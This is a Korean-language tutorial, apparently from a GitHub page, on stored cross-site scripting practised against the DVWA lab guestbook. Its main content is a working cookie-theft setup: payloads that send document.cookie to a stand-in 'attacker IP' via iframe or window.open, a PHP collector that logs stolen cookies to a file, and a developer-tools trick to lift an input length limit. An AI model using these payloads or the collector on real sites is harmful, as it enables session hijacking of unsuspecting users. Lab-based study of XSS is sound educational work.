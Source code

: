 ## Stored 기반 Cross Script Scripting

XSS(Cross-site Scripting)는 웹 상에서 가장 기초적인 취약점 공격 방법 입니다.             
크로스 사이트 스크립팅(XSS)은 애플리케이션에서 브라우저로 전송하는 페이지에서 사용자가 입력하는 데이터를 검증하기 않거나, 출력 시 위험 데이터를 무효화 시키지 않을 때 발생하게 됩니다.     
공격자는 의도적으로 브라우저에서 실행될 수 있는 악성 스크립트를 웹 서버에 입력 또는 출력 될수 있게 공격을 할수 있습니다.     
XSS 취약점을 이용한 공격 방법은 크게 3가지로 분류됩니다.     
  
- 1. XSS(Stored) - 저장 XSS공격- 접속자가 많은 웹 사이트를 대상으로 공격자가 XSS 취약점이 있는 웹 서버에 공격용 스크립트를 입력시켜 놓으면, 방문자가 악성 스크립트가 삽입되어 있는 페이지를 읽는 순간 방문자의 브라우저를 공격하는 방식
- 2. XSS(Reflected) - 반사 XSS공격- 악성 스크립트가 포함된 URL을 사용자가 클릭하도록 유도하여 URL을 클릭하면 클라이언트를 공격하는 공격 방식
- 3. XSS(DOM) - DOM 기반 XSS 공격- DOM 환경에서 악성 URL을 통해 사용자의 브라우저를 공격하는 방식

![image](https://github.com/user-attachments/assets/3bac7614-3182-43d4-b34d-46b732fa0fa0)        
  
DVWA 취약점 진단 항목중 하나인 Stored XSS 취약점 진단 화면 입니다.       
Stored XSS는 '저장 크로스 사이트 스크립팅' 취약점으로 공격자가 악성 스크립트를 웹 애플리케이션에 삽입하여 사용자가 해당 게시물을 열었을 경우 서버에서 악성 스크립트를 반환하도록 유도하는 방식 입니다.        
공격자는 이 공격을 통하여 사용자의 쿠키 정보를 탈취, 사용자의 권한을 획득, 사용자의 단말에 침투하여 악성코드 배포까지 이루어 질수 있는 공격 방식 입니다.공격시나리오를 간단히 살펴보도록 하겠습니다. (해당 시나리오는 인터넷에 그림으로도 있으니 참고 하시면 되실것 같습니다.)     

- 1. 공격자는 웹 게시판에 스크립트가 허용되는 부분에 악의적인 서버로 유도하는 스크립트를 삽입 <script src =http://공격 서버/악성파일></script>        
- 2. 공격이 성공되면 웹서버의 데이터베이스에 값이 저장됨3. 웹에서 페이지 요청시 데이터베이스는 악성 스크립트를 사용자에게 출력공격 구문 예시
- 3. document.write('<iframe src='http://악성서버/xsstest.php?'+document.cookie+'' width=0 height=0></iframe>');<img src="" onerror="alert('test')"><script>alert('XSS TEST')</script> 그럼 취약점이 있는지 살펴보도록 하겠습니다.

![image](https://github.com/user-attachments/assets/06b66b39-015d-424a-a567-f91a5913b193)      
<script>alert('XSS TEST')</script> 입력후 [Sign Guestbook] 버튼을 눌러 줍니다.
      
![image](https://github.com/user-attachments/assets/70e801a9-9402-4c3f-b4a2-ef42d95e2073)    
다음과 같이 alert 함수 안에 작성한 메시지가 발생하였다면, 취약점이 있다고 보셔야 합니다. 그럼 조금더 세부적으로 들어가보도록 하겠습니다.[쿠키 탈취 스크립트 코드] (xsstest.php)
![image](https://github.com/user-attachments/assets/ba5aaa61-25af-4bd8-b03f-01b9d0192871)     
다음과 같이 스크립트 코드를 작성하신후 .php 파일로 저장하여 줍니다.
```php
<? $cookie=$_GET['data'];  //data 값을 가지고 온다.
$atime=date("y-m-d H:i:s"); //년 월 일 시 분 초
$log=fopen("data.txt","a");  //파일 생성 a는 띄어쓰기 옵션
fwrite($log,$atime." ".$cookie."\r\n"); //파일을 쓴다. \r\n은 개행
fclose($log); //파일 닫기//공격자의 웹서버 주소 팝업창 크기
echo "<img src=http://공격자 IP/vulnerabilities/xss.jpg width=220 height=150></img>"; ?>
```
여기서 xss.jpg 파일은 팝업창으로 띄울 이미지 이므로 어떠한 이미지 파일이여도 상관은 없습니다. 다만 꼭 경로를 확인해 주시기 바랍니다.     
![image](https://github.com/user-attachments/assets/8aa8ea60-f929-487d-8f1a-9f1dcbe85bfc)      
저 같은 경우는 경로가 위에 보시는 것 처럼 지정이 되어 있고, .php 파일, jpg 파일, data.txt 파일을 경로에 넣어 줍니다.공격 코드
     
![image](https://github.com/user-attachments/assets/797244fc-7975-4b9e-994d-016576c058ba)       
```php
<script>window.open("http://공격자 IP/xsstest.php?data="+document.cookie,"small","width=150,height=220,scrollbars=no,menubar=no")</script>
```
여기까지 따라오셨다면 준비는 다 끝났습니다.

![image](https://github.com/user-attachments/assets/7cf5c82a-a173-43ef-a4d7-8b658c3cb12c)     
이제 해당창 Message 부분에 공격코드를 삽입하여야 합니다.       
하지만 길이 제한 때문에 공격코드가 입력되지 않는것을 확인할수 있습니다.     
브라우저의 개발자 도구를 이용하여 길이제한을 늘려 보도록 하겠습니다.    

![image](https://github.com/user-attachments/assets/c48718f0-f6c7-4228-a66e-fe2841e75274)    
다음과 같이 개발자도구를 이용하여 maxlength 부분을 수정하여 주신후 공격 코드를 삽입합니다.

![image](https://github.com/user-attachments/assets/73101421-d785-4e31-be5f-005cc3a36c6c)    
수정 후 공격코드를 삽입한 화면 입니다.

![image](https://github.com/user-attachments/assets/4a132318-0a0c-4ac1-874b-59c5d9c2aef3)     
공격이 성공하면 조금전에 넣었던 이미지 팝업이 뜨면서 공격이 성공되었음을 알려 줍니다.

![image](https://github.com/user-attachments/assets/2fcfd0c8-3028-4deb-a072-ce91e677c420)    

data.txt 파일을 확인해 보시면 쿠키값을 탈취한것을 확인할수 있습니다.      
이렇게 쿠키값이 탈취가 되면, 쿠키재사용 공격에 이용되기도 합니다.        
절대 악의적인 목적으로 이용하시면 안됩니다. 악의적으로 이용시 법적인 처벌을 받으 실수 있으며, 꼭 공부의 목적으로 사용하시기 바랍니다.      





## More Information
https://owasp.org/www-community/attacks/xss
https://owasp.org/www-community/xss-filter-evasion-cheatsheet
https://en.wikipedia.org/wiki/Cross-site_scripting
http://www.cgisecurity.com/xss-faq.html
http://www.scriptalert1.com/
